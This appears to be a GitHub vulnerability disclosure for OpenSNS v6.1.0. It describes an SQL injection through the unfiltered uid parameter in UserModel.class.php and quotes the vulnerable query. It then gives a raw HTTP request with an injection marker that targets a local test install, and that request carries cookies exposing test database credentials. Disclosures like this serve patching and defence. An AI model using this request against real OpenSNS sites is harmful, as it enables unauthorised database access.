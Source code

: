 ### OpenSNS

---
Project official：http://www.opensns.cn

Projetc address： http://www.opensns.cn/home/index/download.html

---
### $Uid SQLINJECT
When I login user center
>URL:http://127.0.0.1/opensns_v6.1.0/index.php?s=/ucenter/Config/&uid=1
![Alt text](/OpenSNSv6.1.0/img/1.png)
```bash
Debug：The getNeedQueryData function $uid in the UserModel.class.php(./Application/Common/Model/UserModel.class.php) file is not properly filtered resulting in SQLINJECT
```
```bash
Code:$query_results = D('')->query('select ' . implode(',', $need_query) . " from `{$db_prefix}member`,`{$db_prefix}ucenter_member` where uid=id and uid={$uid} limit 1");
```
* POST:
```bash
GET /opensns_v6.1.0/index.php?s=/ucenter/Config/&uid=1* HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: 20cs_2132_saltkey=aZNf0Aiq; 20cs_2132_lastvisit=1562833062; PHPSESSID=jc0jgmdjmu1ihptvksahfnani0; opensns_db_config=think%3A%7B%22DB_PREFIX%22%3A%22ocenter_%22%2C%22DB_PORT%22%3A%223306%22%2C%22DB_PWD%22%3A%22root%22%2C%22DB_USER%22%3A%22root%22%2C%22DB_NAME%22%3A%22hackgo%22%2C%22DB_HOST%22%3A%22127.0.0.1%22%2C%22DB_TYPE%22%3A%22mysqli%22%7D; opensns_OX_LOGGED_USER=mQNFoONwIXTFkC7JA1j5G%3DW54F6qhcDXFdYJnW1uN-k3xNnA-foYHSB4tv74OD2hPTnFqYIZkbYZZVTJWXkGD8BQ1UExNSGMeaVxVyEimEE%3DkY0EV
Connection: close
```
>verification:
![Alt text](/OpenSNSv6.1.0/img//2.png)

